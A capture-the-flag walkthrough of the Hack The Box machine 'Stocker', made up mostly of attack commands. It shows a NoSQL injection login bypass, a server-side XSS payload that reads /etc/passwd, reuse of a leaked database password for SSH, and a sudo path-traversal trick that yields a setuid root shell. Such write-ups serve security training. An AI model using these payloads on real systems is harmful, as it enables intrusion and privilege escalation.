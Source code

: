 ## HTB: Stocker Walkthrough

### Recon

#### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.196
nmap -p 22,80 -sCV 10.10.11.196
```
- Open Ports: 22 (SSH), 80 (HTTP)
- Hostname Redirects to: `stocker.htb`
- Added `stocker.htb` and `dev.stocker.htb` to `/etc/hosts`

#### Subdomain Discovery
```bash
ffuf -u http://10.10.11.196 -H "Host: FUZZ.stocker.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac
```
- Found `dev.stocker.htb`

#### Web Enumeration
- `stocker.htb` is a static site
- `dev.stocker.htb` is an Express.js application with a login form

### Shell as angoose

#### NoSQL Injection Auth Bypass
```json
{"username": {"$ne": "0xdf"}, "password": {"$ne":"0xdf"}}
```
- Logs in successfully due to likely NoSQL-based auth.

#### PDF File Read via Server-Side XSS (SSXSS)
- Purchase items and manipulate `title` field in basket JSON.
- Injected JS payload:
```js
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```
- Retrieved `/etc/passwd` and `/var/www/dev/index.js`

#### Found MongoDB URI
```js
'mongodb://prod_user:IHeardPassphrasesArePrettySecure@localhost/prod?authSource=admin&w=1'
```
- Tried SSH with these creds: `ssh angoose@stocker.htb`

#### Gained access:
```bash
sshpass -p 'IHeardPassphrasesArePrettySecure' ssh angoose@stocker.htb
```

### Shell as root

#### Sudo Rights
```bash
sudo -l
(ALL) /usr/bin/node /usr/local/scripts/*.js
```
- Scripts are owned by root and unreadable, but wildcard allows path traversal

#### Exploiting Path Traversal in sudo
```javascript
// /dev/shm/0xdf.js
require('child_process').exec('cp /bin/bash /tmp/0xdf; chown root:root /tmp/0xdf; chmod 4777 /tmp/0xdf')
```
```bash
sudo node /usr/local/scripts/../../../dev/shm/0xdf.js
/tmp/0xdf -p
```

#### Gained Root Access
```bash
/tmp/0xdf -p
cat /root/root.txt
```

---

### Summary
- NoSQL Injection for initial login
- Server-Side XSS to read files from the host
- Exfiltrated DB credentials to access SSH
- Wildcard misconfiguration in sudo allows path traversal to arbitrary root shell

Rooted `Stocker` 🎉